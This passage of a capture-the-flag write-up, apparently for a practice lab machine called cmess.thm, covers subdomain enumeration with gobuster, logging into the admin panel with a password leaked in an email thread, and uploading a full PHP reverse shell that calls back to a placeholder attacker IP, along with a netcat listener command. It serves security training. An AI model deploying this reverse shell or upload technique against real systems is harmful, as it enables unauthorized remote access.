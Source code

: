 ### 3. Subdomain Enumeration
- Got stuck on the admin login, so enumerated subdomains:
  ```bash
  gobuster dns -d cmess.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
  ```
- Results:
  ```
  dev.cmess.thm
  ```
- Added to `/etc/hosts`:
  ```bash
  echo "[VICTIM IP] dev.cmess.thm" >> /etc/hosts
  ```
- Visited `http://dev.cmess.thm`—found an email thread:
  ```
  From: andre@cmess.thm
  To: support@cmess.thm
  Subject: Password Reset
  That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

  From: support@cmess.thm
  To: andre@cmess.thm
  Subject: Re: Password Reset
  Your password has been reset. Here: KPFTN_f2yxe%
  ```

### 4. Admin Panel Access
- Used the credentials on `http://[VICTIM IP]/admin`:
  - Email: `andre@cmess.thm`
  - Password: `KPFTN_f2yxe%`
- Logged in successfully. Noticed admins could upload files to `/assets`.

### 5. Reverse Shell
- Generated a PHP reverse shell from [RevShells](https://www.revshells.com/):
  ```php
  <?php
  set_time_limit(0);
  $ip = '[ATTACKER IP]'; // e.g., 10.10.98.244
  $port = 4444;
  $sock = fsockopen($ip, $port);
  $proc = proc_open('/bin/sh', [0 => ['pipe', 'r'], 1 => ['pipe', 'w'], 2 => ['pipe', 'w']], $pipes);
  while (!feof($sock)) {
      fwrite($pipes[0], fread($sock, 1024));
      fwrite($sock, fread($pipes[1], 1024));
  }
  ?>
  ```
- Saved as `shell.php`.
- Set up a listener:
  ```bash
  nc -lvnp 4444
  ```
- Uploaded `shell.php` to `/assets` via the admin panel.
- Visited `http://[VICTIM IP]/assets/shell.php`—got a shell as `www-data`.
